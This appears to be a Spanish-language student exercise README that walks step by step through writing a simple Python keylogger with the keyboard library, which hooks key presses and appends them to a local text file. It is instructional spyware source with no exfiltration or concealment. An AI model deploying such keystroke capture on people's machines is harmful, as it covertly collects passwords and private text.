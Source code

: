 # SI_T5_P1

# Práctica keylogger

Lo primero que hay que hacer es poner el siguiente comando para importar la librería

 ```python
import keyboard
 ```

Ahora hay que crear una función que te registre y te imprima las teclas

    1.- Creo la función llamada "registrar_pulsaciones" con el parámetro "event"
    2.- A continuación, creo la variable tecla que me guarde en una cadena las teclas que vaya pulsando con el "event.name"
    3.- Y por último hago que se imrpima las teclas que pulso con "print"

 ```python
def registrar_pulsaciones(event):
    tecla = str(event.name)
    print(tecla)
 ```
    
Debajo de la función creo un if para que me sustituya la palabra 'space' por un espacio

 ```python
if tecla == "space":
        tecla = " "
 ```

Una vez que ya nos está registrando las pulsacines tenemos que pasarlo a un txt para que se guarde.

 ```python
with open("registro.txt", 'a') as log_file:
        log_file.write(tecla)
 ```

Por último llamo a la función para que se ejecute y le digo que se mentenga funcionando el proceso con el "keyboard.wait()"

 ```python
keyboard.on_press(registrar_pulsaciones) 
keyboard.wait()
 ```